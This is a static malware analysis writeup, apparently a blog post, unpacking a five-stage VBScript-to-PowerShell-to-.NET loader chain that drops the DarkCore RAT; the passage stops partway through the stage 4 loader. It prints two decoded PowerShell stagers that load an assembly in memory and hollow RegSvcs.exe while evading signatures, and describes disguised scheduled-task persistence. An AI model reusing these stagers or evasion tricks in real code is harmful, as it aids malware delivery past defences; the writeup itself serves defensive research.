# From a Junk-Filled VBS to a Native RAT — Static Analysis of a 5-Stage Loader Chain

This one started as a single, 680 KB VBScript file. Open it and you get hundreds of lines of random `Dim`s, functions called `NextItem8239` and `RawChunk1078`, and almost two thousand comment lines full of line noise. Underneath all of that there is a five-stage chain: VBS → VBS → PowerShell → a .NET process-hollowing loader → the native x64 **DarkCore** RAT, version **3.8.0** — a data-theft RAT with a session-hijacking browser, already documented by [BlackFog](https://www.blackfog.com/darkcore-a-data-theft-rat-with-a-session-hijacking-browser/). The binary signs itself everywhere: `DARKCORE01`, `DarkCoreModText_v1`, every export prefixed with `Dc`.

As with my previous writeups, everything here is **static**. I never ran the sample. Every layer was peeled by reading the code, re-implementing the decoder in Python, and checking that the next stage came out looking like something sensible (VBS, PowerShell, `MZ`). At the end I recovered the RAT's C2 config, reconstructed its network protocol and found its "don't infect these countries" check.

## Triage

```
$ sha256sum 2d89184a...0a.vbs
2d89184a566d2cae6d3e7c78dad0f9e1a44c5e64a44d19bacfc9cfc0366e7d0a

$ wc -c 2d89184a...0a.vbs
682761
```

A VBScript is just text, so there's nothing to disassemble — I opened it in an editor. The first thing you notice is how much of it there is, and that most of it is noise. The second thing is this:


*1947 comment lines that all start with `'vf`, mixed with innocent-looking comments like `' report generated 97661`. Comments are ignored by the interpreter — unless the script reads its own source file.*

Nobody writes 1947 lines of random-looking comments. I made a note that these would come back later (they do, in stage 2) and went looking for the code that actually runs.

## Stage 0 → Stage 1 — The Outer VBS

### The blob is split across functions

The real data in the outer script is not in one place. It is a long base64-looking string cut into dozens of pieces, stored in arrays inside several functions:


*`OpenTable4703()` builds an array of 39 string chunks. There are four functions like this.*

and somewhere in the middle of a lot of filler, the four functions get glued together and passed to a decoder:


*`OpenTable4703() & FinalHandle6595() & NextAccount8246() & CurrentScript3408()` → `OuterHelper3162`. The output is then split in two: `Mid(…, 2, 1021)` and `Mid(…, 1025)`.*

The loop with `(i * 17 + 3) Mod 97` above it is junk: it computes a value that is always `>= 0`, so the `If` is always true. It's there to make the control flow look less obvious.

### The decoder: base64 with a twist

`OuterHelper3162` reads the blob 4 characters at a time and turns them into 3 bytes — that's base64 (`d0 * 262144 + d1 * 4096 + d2 * 64 + d3`, with a URL-safe alphabet mapped by `RawGroup1334`). The twist is that every output byte is also XORed with a 29-byte key and a position-dependent value:


*Each decoded byte is XORed with `k0 = key[idx mod 29]` and `tw = (idx * 48 + key[(idx + 5) mod 29]) and 255`.*



In Python:

```python
for idx, b in enumerate(raw):                 # raw = base64-decoded bytes
    k0 = KEY[idx % 29]
    k1 = KEY[(idx + 5) % 29]
    tw = (idx * 48 + k1) & 0xFF
    out.append(b ^ k0 ^ tw)
```

The output has two parts, exactly as the `Mid` calls suggested:

- **1021 bytes** — a string table: `|`-separated, `~`-escaped tokens like `\WindowsPowerShell\v1.0\powershell.exe`, `-ExecutionPolicy`, `Bypass`, `Schedule.Service`, `wscript`, `//e:vbscript`, `[IO.File]::WriteAllBytes`…
- **53 133 bytes** — the stage 2 VBScript.

`RemoteQueue9737` writes stage 2 to `%TEMP%\<random>.log` and runs it with `wscript.exe` along the lines of `//nologo //e:vbscript <file>.log "<path of the original .vbs>"` (the switches come from the string table), then deletes the file. The `.log` extension is cosmetic — `//e:vbscript` forces the engine. Note that the path of the **original** file is passed as an argument. That matters for stage 2.

## Stage 2 — The Second VBS

Stage 2 is also padded with camouflage: a whole NFA/DFA implementation (a little regex engine recognising `if`, `else` and signed numbers) that is never used for anything. The real logic hides inside one of the "DFA" methods, which switches to malicious code halfway through.

### Reading the payload out of the comments

Remember the `'vf` lines? Here they are used:


*It opens the original `.vbs` (passed as `Arguments(0)` by stage 1), keeps every line that starts with `'vf`, and drops the first 4 characters (`'vf` plus 2 random padding characters).*



So the payload was hidden in **comments of the original file**. Stage 2 is meaningless without the original script, which is a neat trick against anyone who extracts stage 2 alone and runs it in a sandbox.

### Base93

The concatenated comment text is decoded by `SessionLeaseCache22`, which is a base93 decoder (basE91-style: pairs of characters, 13 or 14 bits per pair):


*Two characters make `value = pending + digit * 93`. If `(value And 8191) > 456`, 13 bits go into the bit queue, otherwise 14.*


*Bits come out 8 at a time. The alphabet is a shuffled 93-character set defined elsewhere in the script.*

### A custom cipher

The base93 output is laid out as `salt(8) | IV(8) | ciphertext | MAC(8)` and goes through a cipher the author wrote themselves:

- **KDF** (`PackageAdvisorClient43`): the hard-coded password `u+K29?N&z%6f8_dNAuz-_#Yj` and the salt are mixed into 48 bytes — a 32-byte encryption key and a 16-byte MAC key.
- **MAC check** (`TransportProbeInternal74`): an 8-byte tag over salt + IV + ciphertext. If it doesn't match, the script exits with `WScript.Quit 1`.
- **Block cipher** (`ChannelBindingService71`): a 12-round Feistel network on 8-byte blocks, in CBC mode, with four 256-entry S-boxes that are themselves base93-decoded from another blob in the script. PKCS#7-style unpadding at the end.

None of this is strong crypto in practice, because the password, salt, IV and S-boxes are all in the file. Like every layer of this chain, the key ships with the lock. I reimplemented the whole pipeline in Python, and the output was a PowerShell script.

### Execution, evasion and persistence

Before running the PowerShell, stage 2 does a few quick sandbox checks through WMI (more than ~500 MB of RAM, `explorer.exe` running, an enabled network adapter). Funnily enough, the score it computes is never used to stop execution. It also sleeps a random 1.5–3.5 s and then 6–10 s.

The PowerShell is written to `%TEMP%\<10 random chars>\<8 random chars>.ps1` and run with `-WindowStyle Hidden -NoProfile -NonInteractive -ExecutionPolicy Bypass`. If that fails, it falls back to a one-shot scheduled task via the `Schedule.Service` COM object, named `MicrosoftEdgeUpdateTaskMachine<8 hex>` and authored by "Microsoft Corporation".

Persistence is set up separately:


*The original script is copied to `%LOCALAPPDATA%\Photo Studio\PhotoStudio.vbs`, and a task XML with a `LogonTrigger` is registered with `schtasks.exe /create /tn "PhotoStudioVBS" /xml … /f`. The task runs `wscript.exe //B //NoLogo` on the copy at every logon.*

Copying the **whole original file** (not stage 2) makes sense: the payload lives in its comments, so it needs to be there next time.

## Stage 3 — PowerShell

The PowerShell script is about 460 KB, mostly two big encoded blobs. Each blob goes through three steps:

1. `Read-CatalogSpan` — a base52 decoder (alphabet `A–Z a–z`, 10 characters → 7 bytes).
2. `Restore-ArchiveSlice` — another home-made cipher.
3. `Expand-CatalogFrame` — GZip decompression (it checks for `1F 8B`, and builds the type names `IO.Compression.GZipStream` from string fragments to avoid simple keyword detection).


*Key and IV go through `Expand-ArchiveMaterial` (a sponge-like mixer) to produce a 32-byte cipher key and a 32-byte seed for the S-boxes. Then a 64-bit counter block is encrypted and XORed with the data: CTR mode.*

Each blob has its own 16-byte key and IV, hard-coded right next to it. The first blob decrypts to a .NET DLL (`Nxs.Hosting.dll`), the second to a native x64 PE — the final payload.

### Two hidden scriptblocks

What the script does with them is hidden one more time, as XOR-encoded byte arrays turned into scriptblocks at runtime:


*`$r1` XORed with 132 becomes a scriptblock that receives `$libBytes`. Note the target: `RegSvcs.exe` — and the commented-out `#XLOADER` line, which would hollow the current process instead. This looks like a builder template with options.*


*`$r2` XORed with 212: called with the loaded assembly, the `RegSvcs.exe` path and the payload bytes.*

Decoding the two arrays gives the PowerShell commands that stage 3 actually runs.

**`$r1`** (XOR 132), executed as `& $rc1 $libBytes`:

```powershell
param($lb)$d=[AppDomain]::CurrentDomain;$lb=$null;foreach($m in $d.GetType().GetMethods()){$p=$m.GetParameters();if($p.Length -eq 1 -and $p[0].ParameterType -eq [byte[]] -and $m.ReturnType -eq [Reflection.Assembly]){$lm=$m;break}};if($null -eq $lm){return $null};try{return $lm.Invoke($d,(,[byte[]]$lb))}catch{return $null}
```

**`$r2`** (XOR 212), executed as `& $rc2 $loadedAsm $tp $pldBytes`:

```powershell
param($asm,$tgt,$pld)$f=[Reflection.BindingFlags]280;$mi=$null;foreach($t in $asm.GetTypes()){foreach($m in $t.GetMethods($f)){if(-not $m.IsStatic){continue};if($m.Name -ne 'M0'){continue};$p=$m.GetParameters();if($p.Length -ne 2){continue};if($p[0].ParameterType -ne [byte[]]){continue};if($p[1].ParameterType -ne [string]){continue};$mi=$m;break};if($null -ne $mi){break}};if($null -eq $mi){return};try{$null=$mi.Invoke($null,@([byte[]]$pld,[string]$tgt))}catch{}
```

Both are built to avoid detection rather than to be short:

- **`$r1` loads the DLL without ever naming `Load`.** `[AppDomain]::CurrentDomain.Load($bytes)` is one of the most signatured lines in malicious PowerShell, so the script never writes it. Instead it walks every method of `AppDomain` and picks the one whose **signature** matches: a single `byte[]` argument and a `Reflection.Assembly` return type. That is `AppDomain.Load(byte[])`, found by its shape instead of its name, and invoked through reflection. The DLL is loaded straight from memory and never touches the disk.
- **`$r2` finds the entry point the same way.** It walks every type of the loaded assembly with `BindingFlags` 280 (`Static | Public | InvokeMethod`) and keeps only a static method called `M0` with exactly the signature `(byte[], string)`. Then it calls it with `(payload, "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegSvcs.exe")`. No type name is hard-coded, so renaming classes in the loader doesn't break the stager.
- **The commands themselves never appear in clear.** They exist only as XOR-encoded byte arrays, become strings at runtime, are turned into scriptblocks with `[scriptblock]::Create`, and the variables (`$r1`, `$rs1`, `$rc1`…) are set back to `$null` right after use. Every `try { } catch { }` is empty, so a failure leaves no error output.

So the DLL is a loader whose job is to put the payload inside `RegSvcs.exe`.

## Stage 4 — Nxs.Hosting.dll, the Hollowing Loader

```
$ sha256sum final_loader.bin
df672dfe944292879f6405716d2219d828d8287b0f1dd3639b490316654d3e00
```

A 57 KB .NET DLL. Decompiling it straight away gave obfuscated class and method names (`P0_…`) and no readable strings, so I ran it through **de4dot** first and then decompiled the cleaned copy. Even cleaned, it's not pleasant to read: every API call goes through a delegate (`Delegate45.smethod_0(…)`, `Delegate89.smethod_0(…)`…) whose body is generated at runtime with `DynamicMethod`/`DynamicILInfo`, so the decompiler shows the call but not what it does. Digging into the resources later told me who did this: the strings `LogicNP Software` and `ResourceAssembly.dll` identify **Crypto Obfuscator**, a commercial .NET protector.

### Encrypted strings, two layers deep

Nothing interesting is in plain text. The static constructor of `Class1` loads an embedded resource and decrypts it:


*The resource name is itself base64: `TnhzLkhvc3Rpbmck` → `Nxs.Hosting$` (the manifest stores it as `Nxs.Hosting&&`; the obfuscator fixes names up at runtime). The stream goes into `Class2.smethod_3(97L, …)`.*

`Class2.smethod_3` skips three bytes, reads a flags byte, inverts it, and applies the steps it enables:

